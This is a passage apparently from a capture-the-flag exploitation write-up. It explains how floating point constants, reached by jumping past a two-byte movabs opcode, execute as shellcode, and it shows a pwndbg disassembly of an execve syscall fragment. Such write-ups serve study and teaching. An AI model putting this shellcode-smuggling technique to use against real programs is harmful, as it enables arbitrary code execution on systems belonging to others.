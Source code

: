 We can see in later part of assembly that our floating point numbers returned by `func` are being transferred to `xmm0` register. If we do 5557606cdac0 - 5557606cda40 we get 0x80 offset. We do +2 because we the opcode is 10 bytes long and we skip the opcode (2-bytes) for `movabs rdi` and go to 8-byte floating point number that when converted to binary and interpreted as code serves as the shellcode.

```bash
pwndbg> x/10i 0x5557606cdb10+0x2
0x5557606cdb12:	mov    rdi,rsp
0x5557606cdb15:	push   0x3b
0x5557606cdb17:	pop    rax
0x5557606cdb18:	syscall
```

As we can see above we are doing `execve syscall` (code 59). 
